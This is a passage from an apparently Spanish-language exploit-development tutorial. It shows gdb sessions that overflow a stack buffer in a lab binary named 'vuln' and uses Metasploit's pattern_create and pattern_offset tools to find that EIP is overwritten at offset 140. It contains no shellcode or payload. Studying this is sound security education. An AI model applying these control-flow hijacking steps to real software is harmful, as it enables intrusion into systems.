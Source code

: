 (gdb) run \`perl -e 'print "A"x128'\`BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
Starting program: /home/arget/vuln \`perl -e 'print "A"x128'\`BBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ

Program received signal SIGSEGV, Segmentation fault.  
0x45454545 in ?? ()

Al romper en 0x45454545 quiere decir que en EIP se encuentra «EEEE», por lo que para llegar a pisar EIP debemos introducir 128 + 3 \* 4 = 140. Vamos a comprobarlo introduciendo en EIP unos bytes específicos, «ARGT»  
(gdb) run \`perl -e ‘print «A»x140’\`ARGT  
Starting program: /home/arget/vuln \`perl -e ‘print «A»x140’\`ARGT  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAARGT

Program received signal SIGSEGV, Segmentation fault.  
0x54475241 in ?? ()

Vemos que EIP contiene 0x54475241, que es ([little endian](https://en.wikipedia.org/wiki/Endianness)…) 41524754, que se corresponde precisamente con «ARGT», hemos logrado situar en EIP una «dirección» arbitraria.

La obtención de esta información se puede acelerar por ejemplo con frameworks como metasploit con el módulo pattern:

$ /opt/metasploit/tools/exploit/pattern\_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Este módulo crea una cadena de manera determinística de una longitud cualquiera de forma que nunca se repiten 4 caracteres seguidos. Mediante el parámetro -l le indicamos la longitud que deseamos, debemos orientarnos por el tamaño del marco de la pila que vemos en el código asm. Ahora introducimos esa cadena en el programa:

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag  
Starting program: /home/arget/vuln Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag  
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.  
0x37654136 in ?? ()

Rompe al acceder a 0x37654136, lo pasamos a big endian 36 41 65 37 y lo convertimos a caracteres ASCII ([asciitohex.com](https://www.asciitohex.com/) es una buena herramienta, o siempre se puede usar un echo -e «x36x41x65x37» o un python/perl one-line o incluso un echo 36416537 | xxd -ps -r) que resulta ser 6Ae7 y empleamos el módulo pattern\_offset de metasploit para obtener el offset exacto dentro de la cadena que se nos proporcionó:

$ /opt/metasploit/tools/exploit/pattern\_offset.rb -q 6Ae7  
\[\*\] Exact match at offset 140
